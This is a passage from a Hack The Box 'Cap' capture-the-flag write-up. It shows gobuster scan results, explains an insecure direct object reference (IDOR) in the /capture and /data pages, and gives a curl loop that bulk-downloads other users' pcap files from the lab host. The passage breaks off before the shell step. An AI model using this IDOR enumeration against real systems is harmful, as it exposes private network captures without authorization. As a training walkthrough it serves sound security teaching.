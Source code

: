 ![Cap Network Status](./assets/2021-10-07-hack-the-box-cap/dashboard-network-status.png)

The result of the `gobuster` scan doesn't reveal anything new or hidden. All paths uncovered via the scan we already found doing manual recon:

```sh
$ cat gobuster.txt

/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17366]
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/4]
```

## Getting a shell as user

As far as the enumeration goes, we didn't discover all that much. We got a couple of pages that mostly return some static information. But the `/capture` page is a rather interesting one. Reloading the page a few times it starts redirecting to different pages over time. Initially, it redirected to `/data/3`, but after a few more gobuster scans and that id started going. All gobuster information start from id 3, this makes me wonder what pcap files are available before id 3. This is what they call an IDOR insecure direct object reference. It is a vulnerability that allows an attacker to manipulate a URL or a parameter to a request to access objects they aren't supposed to access.

With `curl` it's possible to quickly download all available pcap files:

```sh
$ seq 0  10 | xargs -I% bash -c "curl -L http://10.10.10.245/download/% -s -o %.pcap; echo 'Downloaded %.pcap'"

Downloaded 0.pcap
Downloaded 1.pcap
Downloaded 2.pcap
Downloaded 3.pcap
Downloaded 4.pcap
Downloaded 5.pcap
Downloaded 6.pcap
Downloaded 7.pcap
Downloaded 8.pcap
Downloaded 9.pcap
Downloaded 10.pcap
```
